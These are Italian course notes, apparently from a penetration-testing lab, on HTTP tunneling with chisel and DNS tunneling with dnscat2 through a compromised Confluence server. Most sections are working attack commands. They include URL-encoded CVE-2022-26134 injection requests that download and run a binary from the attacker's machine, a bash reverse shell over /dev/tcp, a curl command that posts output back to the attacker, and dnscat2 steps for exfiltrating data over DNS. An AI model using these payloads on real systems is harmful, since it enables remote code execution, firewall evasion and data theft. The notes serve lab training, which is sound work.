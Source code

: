 # 19.1 HTTP Tunneling Theory and Practice

## 19.1.2 HTTP Tunneling with Chisel

Nel caso illustrato, abbiamo compromesso la 2 macchina e possono essere esguiti comandi tramite richieste HTTP. Tuttavia, è presente una soluzione DPI (Deep Packet Inspection) che nega tutto il traffico in uscita tranne quello HTTP. Inoltre, tutte le porte in entrata sulla 2 macchina vengono bloccate tranne la 8090. Non si può ne creare una reverse-shell ne eseguire port forwarding remoto SSH. 

Il firewall blocca tutto il traffico per la 3 macchina.

Abbiamo le credenziali per la 4 macchina.

![[HTTP_Tunneling_with_Chisel.png]]

In questo caso occorre utilizzare **chisel**, un tool che permette di fare HTTP tunneling incapsulando strem di dati tramite HTTP. Inoltre, utilizza anche il protocollo SSH tramite il tunnel, quindi i dati sono criptati. Questo utilizza un modello client/server è può essere utilizzato molti sistemi (windows, linux, macOS).

Potremmo lanciare un server chisel su kali (1 macchina) e un client chisel sulla 2 macchina.

![[HTTP_Tunneling_with_Chisel_2.png]]

- https://github.com/jpillora/chisel/releases/tag/v1.7.7

Cerchiamo chisel su kali (1 macchina):

```bash
which chisel
```

E trasferiamolo sulla 2 macchina lanciando questo comando su kali (1 macchina):

(comando wget da integrare nel comando curl)

```bash
wget $IP_KALI:8080/chisel -O /tmp/chisel && chmod +x /tmp/chisel
```

```bash
curl http://$IP_2_MACCHINA:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27wget%20$IP_KALI:8080/chisel%20-O%20/tmp/chisel%20%26%26%20chmod%20%2Bx%2/0/tmp/chisel%27%29.start%28%29%22%29%7D
```

Ora che abbiamo chisel da entrambe le parti lanciamo questo comando su kali (1 macchina):

```bash
chisel server --port 8080 --reverse
```

Per osservare il traffico lanciamo questo comando su kali (1 macchina):

```
sudo tcpdump -nvvvXi tun0 tcp port 8080
```

Per avviare il client chisel sulla 2 macchina lanciamo questo comando su kali (1 macchina):

(comando wget da integrare nel comando curl)

```bash
/tmp/chisel client $IP_KALI:8080 R:socks > /dev/null 2>&1 &
```

```bash
curl http://$IP_2_MACCHINA:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27/tmp/chisel%20client%20$IP_KALI:8080%20R:socks%27%29.start%28%29%22%29%7D/
```

Nel caso non dovesse funzionare, per poter capire il problema, bisognerebbe provare con questo comando:

(comando wget da integrare nel comando curl)

```bash
/tmp/chisel client $IP_KALI:8080 R:socks &> /tmp/output; curl --data @/tmp/output http://$IP_KALI:8080/
```

```bash
curl http://$IP_2_MACCHINA:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27/tmp/chisel%20client%20$IP_KALI:8080%20R:socks%20%26%3E%20/tmp/output%20%3B%20curl%20--data%20@/tmp/output%20http://$IP_KALI:8080/%27%29.start%28%29%22%29%7D/
```

L' errore è il seguente:

```bash
/tmp/chisel: /lib/x86_64-linux-gnu/libc.so.6: version `GLIBC_2.32' not found (required by /tmp/chisel)/tmp/chisel: /lib/x86_64-linux-gnu/libc.so.6: version `GLIBC_2.34' not found (required by /tmp/chisel) [|http]
```

Per risolverlo:

```bash
wget https://github.com/jpillora/chisel/releases/download/v1.8.1/chisel_1.8.1_linux_amd64.gz

gunzip chisel_1.8.1_linux_amd64.gz

mv chisel_1.8.1_linux_amd64 chisel 
```

Ora bisogna trasferire questa versione di chisel sulla 2 macchina e farlo partire:

```bash
curl http://$IP_2_MACCHINA:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27wget%20$IP_KALI:8080/chisel%20-O%20/tmp/chisel%20%26%26%20chmod%20%2Bx%2/0/tmp/chisel%27%29.start%28%29%22%29%7D
```

```bash
curl http://$IP_2_MACCHINA:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27/tmp/chisel%20client%20$IP_KALI:8080%20R:socks%20%26%3E%20/tmp/output%20%3B%20curl%20--data%20@/tmp/output%20http://$IP_KALI:8080/%27%29.start%28%29%22%29%7D/
```

Avviamo il servizio ssh sulla macchina kali (1 macchina):

```bash
sudo ss -ntplu
```

Ora la porta proxy SOCKS 1080 è in ascolto sull'interfaccia di loopback della Kali (1 macchina). Dobbiamo sfruttarlo per connetterci al server SSH della 3 macchina. Per farlo utilizziamo ncat:

```bash
sudo apt install ncat

ssh -o ProxyCommand='ncat --proxy-type socks5 --proxy 127.0.0.1:1080 %h %p' database_admin@$IP_3_MACCHINA
```

Potrebbe essere utilizzando anche _proxychains_ modificando l'apposito file di configurazione.

# 19.2 DNS Tunneling Theory and Practice

## 19.2.1. DNS Tunneling Fundamentals

Funzionamento DNS:

![[DNS_Tunneling_Fundamentals.png]]

Nel caso illustrato abbiamo un nuovo server FELINEAUTHORITY (6 macchina) sulla WAN della nostra kali (1 macchina). Questo significa che MULTISERVER03 (3 macchina), CONFLUENCE01 (2 macchina), e la Kali (1 macchina) possono raggiungerlo, ma PGDATABASE01 (4 macchina) e HRSHARES (5 macchina) no.

La 6 macchina è registrata in questa rete come l'authoritative name server per la zona **feline.corp**. Potremmo utilizzarlo per vedere come i pacchetti DNS raggiungono un authoritative name server. In particolare, possiamo studiare come i pacchetti DNS sono scambiati tra la 4 macchina e la 6 macchina.

Ma la 4 macchina non può raggiungere direttamente la 6 macchina. Per farlo, potrebbe connettersi alla 3 macchina che tra l'altro è il suo server DNS resolver.

![[DNS_Tunneling_Fundamentals_2.png]]

Come prima, compromettiamo la 2 macchina utilizzando CVE-2022-26134:

```bash
curl -v http://$IP_2_MACCHINA:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27bash%20-i%20%3E%26%20/dev/tcp/$IP_KALI/7777%200%3E%261%27%29.start%28%29%22%29%7D/
```

Da qui ci colleghiamo tramite ssh alla 4 macchina e tramite un altro terminale effettuiamo anche il collegamento alla 6 macchina tramite ssh (con le credenziali fornite).

Utilizziamo _Dnsmasq_ per simulare un setup DNS reale sulla 6 macchina:

```bash
cd dns_tunneling

cat dnsmasq.conf

cat dnsmasq_txt.conf

sudo dnsmasq -C dnsmasq.conf -d
```

Sempre sulla 6 macchina lanciamo questo comando su un altro terminale:

```bash
sudo tcpdump -i ens192 udp port 53
```

Sulla 4 macchina:

```bash
resolvectl status

nslookup exfiltrated-data.feline.corp
```

CONTINUA SUL PDF...

## 19.2.2. DNS Tunneling with dnscat2

_dnscat2_ può essere utilizzato per esfiltrare data tramite query a sottodomini DNS e infiltrare dati TXT (e altri) record.

6 macchina:

```bash
sudo tcpdump -i ens192 udp port 53
```

6 macchina:

```bash
dnscat2-server feline.corp
```

4 macchina:

```bash
cd dnscat/
./dnscat feline.corp
```

6 macchina:

```bash
dnscat2-server feline.corp

window -i 1

listen 0.0.0.0:4646 $IP_5_MACCHINA:4646
```

1 macchina:

```bash
./dnscat_exercise_client -i $IP_6_MACCHINA -p 4646
```
